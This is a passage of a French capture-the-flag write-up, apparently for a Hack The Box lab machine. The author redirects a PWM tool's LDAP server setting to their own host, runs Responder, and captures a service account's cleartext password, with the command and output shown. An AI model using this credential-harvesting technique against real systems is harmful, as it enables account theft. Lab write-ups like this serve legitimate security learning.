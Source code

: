 Cela est très intéressant. Nous avons donc maintenant un login et un mot de passe, ainsi qu'un dernier mot de passe pour ldap.

Simplement, le login et le mot de passe pour pwm ne semblent pas utilisables :

![cap 1](1.png) 

On remarque qu'il y a deux autres options : 

![cap 2](2.png)

Basiquement, le configuration manager va nous permettre d'importer et d'exporter des configurations.

L'éditeur va lui nous permettre d'éditer de sauver directement la configuration.

Nous allons choisir cette dernière option, car elle est plus simple d'utilisation.

![cap 3](3.png)

On voit que dans les informations de connexion, nous avons différentes possibilités. Pour ma part, je connaissais pas, et comprends encore assez mal en étant honnête, la façon dont cela fonctionne.

Tentons premièrement de donner quelques définitions basiques.

- LDAP
	- Basiquement, LDAP est protocole pour annuaire LDAP. Il permet de traiter des données pour des services de ce type, et est très largement utilisé par les serveur windows/AD. L'utilité est de pouvoir faire des requêtes, modifier ou authentifier des objets (utilisateurs matériel etc). Pour accéder à un annuaire ldap, on doit avoir un client ldap, qui va se connecter au server via ldap ou ldaps, la version "sécurisée" de ldap.
- Active Directory
	- AD est un tel service d'annuaire. C'est un système développé par microsoft qui peut permettre de gérer des milliers d'objets. Active Directory utilise entre autre LDAP pour homogénéiser les requêtes à son annuaire.

Lorsque nous avons affaires avec un serveur ldap, l'idée est soit de trouver des informations au sein de ce serveur, soit de retrouver un mot de passe associé à ce serveur.

Ici, il semble impossible de se connecter au serveur LDAP pour une raison qui m'échappe. Le mot de passe trouvé plus haut ne fonctionne pas, et il semble que ce soit intentionnel.

Reste l'option pour dump un mot de passe / utilisateur.

Pour ce faire, nous pouvons utiliser responder. Responder est un programme qui permet de faire de nombreuse chose, et entre autre de créer un serveur ldap.

Etant donné que nous pouvons spécifier un serveur ldap dans la configuration, il devient alors très simple de faire une requête vers notre serveur :

![cap 4](4.png)

Puis avec responder (en cliquant sur Test LDAP Profile) :

```bash
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

<snip>
[+] Listening for events...

[LDAP] Cleartext Client   : 10.129.161.2
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```